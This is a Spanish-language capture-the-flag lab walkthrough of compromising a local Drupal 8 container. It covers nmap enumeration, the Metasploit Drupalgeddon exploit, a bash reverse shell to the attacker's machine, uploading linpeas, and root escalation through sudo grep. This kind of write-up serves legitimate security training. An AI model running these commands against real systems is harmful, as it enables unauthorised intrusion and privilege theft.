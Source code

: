 # Find your style

# Enumeración

Empezamos con un escaneo de los puertos.

`sudo nmap -p- --open -sC -sS -sV --min-rate=5000 -n -Pn -vvv 172.17.0.2 -oN FindYourStyle`  

- `-p-` : Todos los puertos
- `--open` : Todos los puertos abiertos
- `-sC` : Escaneo de todos los scripts
- `-sS` : Escaneo de todos los servicios
- `-sV` : Escaneo de todas las versiones de los servicios
- `--min-rate 5000` : Establece mínimo envío de paquetes mínimos 5000/s
- `-n` : No aplica resolución DNS
- `-Pn` : Omisión de detección de hosts
- `-vvv` : Verbose - Muestra toda la información

# Resultado escaneo  

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_1.jpg)     

Solo tenemos el puerto 80 abierto y, por lo que podemos ver, estamos ante un Drupal 8.  

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_2.jpg)   

Lo que podemos hacer es ver si hay algún exploit que podamos lanzar.  
Abrimos Metasploit y buscamos con el comando `search drupal`.  

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_3.jpg)     

Usaremos el exploit 1, Drupalgeddon.  
Completaremos las opciones y ejecutaremos el exploit.  

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_4.jpg)   

¡Perfecto!  
Hemos obtenido una sessión meterpreter.  

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_5.jpg)     

Ahora, lo que haremos será enviarnos una reverse shell a nuestra máquina Kali para poder trabajar más cómodamente.  
Para ello, ejecutaremos el comando `shell`, luego escribiremos `/bin/bash` y, por último, después de habernos puesto a la escucha en nuestra máquina Kali, escribiremos:  

`bash -i >& /dev/tcp/172.17.0.8/7070 0>&1`  

¡Perfecto! 
¡Ya estamos dentro!  

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_6.jpg)       

Ahora intentaremos escalar privilegios.
Ejecutamos los comandos `sudo -l` y `find / -perm -4000 2>/dev/null`, pero no obtenemos nada interesante.  

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_7.jpg)       

Revisamos también las carpetas clásicas tmp y opt, pero tampoco encontramos nada.    

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_8.jpg)   

Lo que haremos será subir **linpeas** para ver si podemos obtener más información.  
Para ello, montaremos un servidor Python en nuestra máquina Kali con el comando:  

`sudo python3 -m http.server 80`  

Después utilizaremos la herramienta **curl**, ya que wget no está disponible.   

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_9.jpg)    

Ahora daremos permisos de ejecución con el comando `chmod +x linpeas.sh` y lo ejecutaremos.  
Al revisar los resultados, nos llama la atención este punto.   

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_10.jpg)      

Ahora revisaremos el archivo **/etc/passwd** para ver qué usuarios hay en esta máquina.   

Observamos que hay un usuario llamado **ballenita**.  

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_11.jpg)   

Lo que haremos será intentar iniciar sesión como ballenita con la contraseña que hemos encontrado.    

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_12.jpg)   

¡Perfecto!  
Ahora intentaremos escalar a root.  
Ejecutamos el comando `sudo -l`.  

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_13.jpg)   

Bien, ahora revisamos la web de GTFOBins y vemos que podemos aprovechar el binario grep.  

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_14.jpg)   

Lo que haremos será intentar leer en el directorio home de root para ver si hay algún fichero 'interesante'.  
Ejecutamos el siguiente comando:  

`sudo -u root /bin/ls /root/`  

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_15.jpg)   

¡Bien!  
Ahora intentaremos leer el contenido con el comando grep, ejecutando:  

`sudo grep '' /root/secretitomaximo.txt`

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_16.jpg)     

Ahora probaremos a iniciar sesión como root con esta posible contraseña que hemos descubierto.   

![F](https://github.com/giustiand/DockerLabs-Writeups/blob/main/F%C3%A1cil/images/findyourstyle/F_17.jpg)     

¡Y listo!  
¡Ya somos root!  


















